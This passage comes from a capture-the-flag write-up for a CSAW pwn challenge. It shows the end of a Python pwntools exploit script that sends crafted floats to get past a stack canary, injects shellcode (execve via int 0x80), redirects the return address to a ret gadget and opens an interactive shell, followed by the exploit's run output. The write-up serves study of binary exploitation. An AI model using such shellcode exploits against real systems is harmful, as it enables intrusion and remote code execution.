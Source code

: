 ```
   0xffff7cb7:	nop
   0xffff7cb8:	mov    ebx,esp
   0xffff7cba:	mov    al,0xb
   0xffff7cbc:	int    0x80
'''

# Send the amount of floats we will input, and then send the first 5
target.sendline('64')
for i in range(5):

	target.sendline('-1.5846380065386629e+306')#0xff820d8400000000

# Send the value which will trigger the bug to write over heapQt
target.sendline('-23')

# Send the rest of the filler floats
for i in range(51):
	target.sendline('-1.5846380065386629e+306')#0xff820d8400000000

# This is the value which will be between the stack canary, and the double which occupies the return address
target.sendline('3.7857669957336791e-270')#0x0800000000000000

# Send the shellcode blocks
target.sendline(s1)
target.sendline(s2)
target.sendline(s3)
target.sendline(s4)

# Send the double which will reside after the return address double, which will store the address of our shellcode in the last four bytes. 
# We have to convert the int to a float, so it's stored in memory correctly
target.sendline("%.19g" % struct.unpack("<d", p64(ret)))

# Send the double which will occupy the return address with the gadget 0x804900a: ret
target.sendline('4.8653382194983783e-270')#0x804900a00000000

# Drop to an interactive shell
target.interactive()
```

we have to run the exploit several times before it works (due to the fact that we need the first byte of the canary to be in a certain range). But once it is, we get this:

```
$	python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 9002: Done
[*] Switching to interactive mode
64
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-23
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
```